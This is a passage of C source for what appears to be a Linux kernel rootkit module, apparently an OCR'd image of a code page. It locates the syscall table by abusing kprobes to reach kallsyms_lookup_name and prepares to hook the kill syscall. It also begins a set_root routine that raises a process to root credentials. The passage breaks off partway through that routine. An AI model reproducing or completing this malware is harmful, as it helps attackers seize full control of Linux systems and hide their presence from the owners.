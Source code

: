 ```c

// Defining a custom function type to store original syscalls
typedef asmlinkage long (*tt_syscall)(const struct pt_regs *);

static tt_syscall orig_kill;

/* For storing address of sys_call_table */

unsigned long *get_syscall_table(void)
{
	unsigned long *syscall_table;

	//Defining custom kallsyms_lookup_name data type named: kallsyms_lookup_name_t, so that kallsyms_lookup_name be exported to kernel (>5.7)
                    
	/* // Lookup the address for a symbol. Returns 0 if not found.
	 * unsigned long kallsyms_lookup_name(const char *name);
	 *
	 */
	typedef unsigned long (*kallsyms_lookup_name_t)(const char *name);
                    
	kallsyms_lookup_name_t kallsyms_lookup_name;
	register_kprobe(&kp);
	kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;
	unregister_kprobe(&kp);

	syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");
	return syscall_table;
}

// ============================= Alloting root privileges ==================

static void set_root(void)
{
	/*
	 * pwd: /lib/modules/5.11.0-49-generic/build/include/linux/cred.h
	 *
	 * struct cred {
	 * 	...
	 *	kuid_t		uid;		// real UID of the task
	 *	kgid_t		gid;		// real GID of the task 
	 * 	kuid_t		suid;		// saved UID of the task
	 *	kgid_t		sgid;		// saved GID of the task
	 *	kuid_t		euid;		// effective UID of the task
	 *	kgid_t		egid;		// effective GID of the task
	 *	kuid_t		fsuid;		// UID for VFS ops
	 *	kgid_t		fsgid;		// GID for VFS ops
	 *	...
	 * };
	 *
	 * ...
	 * extern struct cred *prepare_creds(void);	// returns current credentials of the process
	 * ...
	 * extern int commit_creds(struct cred *);	// For setting modified values of ids to cred structure
	 */

	struct cred *root = prepare_creds();

	if (root == NULL)
	{
		return;
	}
```